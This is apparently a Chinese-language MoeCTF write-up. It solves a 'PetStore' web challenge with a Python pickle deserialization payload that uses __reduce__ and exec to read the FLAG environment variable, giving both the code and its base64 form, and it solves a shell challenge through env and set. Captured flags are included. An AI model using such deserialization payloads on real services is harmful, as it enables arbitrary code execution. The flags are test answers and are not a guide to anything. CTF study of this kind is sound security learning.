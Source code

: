 ```yaml
---
tags:
  - notes
comments: true
dg-publish: true
level: ctfwp
---
```


### PetStore

看半天是看不懂的，根据提示

> [!TODO]
>
> - [Pickle反序列化](https://goodapple.top/archives/1069)

结合上面的文章，再看源码中的关于 import 的代码，有：

```python title="petStore"
import base64
import pickle
 
class Test:
    def __reduce__(self):
        return (exec, ("import os; store.create_pet(os.getenv('FLAG'), 'flag');",))
 
if __name__ == "__main__":
    print(base64.b64encode(pickle.dumps(Test())).decode("utf-8"))

# gASVUwAAAAAAAACMCGJ1aWx0aW5zlIwEZXhlY5STlIw3aW1wb3J0IG9zOyBzdG9yZS5jcmVhdGVfcGV0KG9zLmdldGVudignRkxBRycpLCAnZmxhZycpO5SFlFKULg==
```

将其在 “Import a Pet” 中导入后，可以在 “current Pet” 中看到 flag

> [!FLAG]
>
> moectf{5t4rRYmEOW' s_fLAG-H4s_b33n_ACCEPted-Ac4c@c @Ca}

### 垫刀之路

#### 01 MoeCTF？启动！

已经获取了 shell 当然是看看所有的东西了。

先是 `ls /` 发现 `flag flag.sh` ，使用 `cat` 查看，提示我们看下环境变量。

习惯性使用 `echo $PATH` ，没有东西；后来发现可以使用 `env` 或者是 `set` 就好了。

- **env命令** 用于显示系统中已存在的环境变量，以及在定义的环境中执行指令；
- **set命令** 作用主要是显示系统中已经存在的shell变量。

> [!FLAG]
>
> moectf{WELCOM3_TO_MoeCtf_aNd_RoaDI_5tArTUp-bY-SxRHHH69}
